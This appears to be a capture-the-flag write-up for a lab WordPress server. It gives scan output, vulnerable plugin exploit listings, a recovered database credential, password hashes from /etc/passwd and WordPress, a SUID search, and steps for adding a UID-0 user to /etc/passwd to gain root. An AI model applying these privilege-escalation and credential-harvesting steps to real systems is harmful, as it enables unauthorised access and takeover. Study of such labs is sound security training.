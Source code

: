 # NMAP

```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

# web

## /info.php
```
192.168.239.23
```

## Wordpress

USERS:-

![image](https://user-images.githubusercontent.com/68326057/117093491-be974000-ad7e-11eb-8b55-ccf7c731b9dc.png)

```bash
admin
aarti
```

wp-support-plus-responsive-ticket-system:-

![image](https://user-images.githubusercontent.com/68326057/117093503-c8b93e80-ad7e-11eb-8cf3-eda1aa18fb2d.png)

```bash
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation               | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection                      | php/webapps/40939.txt
```

slideshow-gallery:-

![image](https://user-images.githubusercontent.com/68326057/117093518-d1aa1000-ad7e-11eb-85e0-04c7234300b1.png)

```bash
WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload                                     | php/webapps/34514.txt
WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload (Python)                            | php/webapps/34681.txt
```

reflex-gallery:- 

![image](https://user-images.githubusercontent.com/68326057/117093533-d8d11e00-ad7e-11eb-8657-677157d19dd8.png)

```bash
WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit)                                 | php/remote/36809.rb
WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload                                        | php/webapps/36374.txt
```

![image](https://user-images.githubusercontent.com/68326057/117095127-251e5d00-ad83-11eb-8122-955542275b9b.png)


# User- WwwData

![image](https://user-images.githubusercontent.com/68326057/117095168-42ebc200-ad83-11eb-8087-5b94be2c7ef2.png)


![image](https://user-images.githubusercontent.com/68326057/117095263-85ad9a00-ad83-11eb-9a67-52f49f4e3f7e.png)

```bash
raj:123  -> mysql                                                                                                       
```

```bash
root:x:0:0:root:/root:/bin/bash
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
```
![image](https://user-images.githubusercontent.com/68326057/117095462-15ebdf00-ad84-11eb-84a3-407d6340ab59.png)

```sql
  1 | admin      | $P$BYWgfD7pa572QS9YFoeVVmhrIhBAx0. | admin         | abc@gmail.com   |   
  3 | aarti      | $P$BHyn.q5e5/HG9/UT/Ow3xkH2xXsikx0 | aarti         | aarti@gmail.com |  
```

```bash
www-data@ubuntu:/var/www/html/wordpress$ find / -perm -u=s -type f 2>/dev/null                                                         
<ml/wordpress$ find / -perm -u=s -type f 2>/dev/null                                                                                   
/usr/bin/pkexec                                                                                                                        
/usr/bin/wget                                                                                                                          
/bin/cp 
```

```bash
cat /etc/passwd 

append this in /etc/passwd :-
wraith:(paste here):0:0:root:/root:/bin/bash

On attacker Machine:-
openssl passwd (your password)

then paste the value in paste here
```

# root

![image](https://user-images.githubusercontent.com/68326057/117096556-1c2f8a80-ad87-11eb-9db6-2b998787a1fd.png)
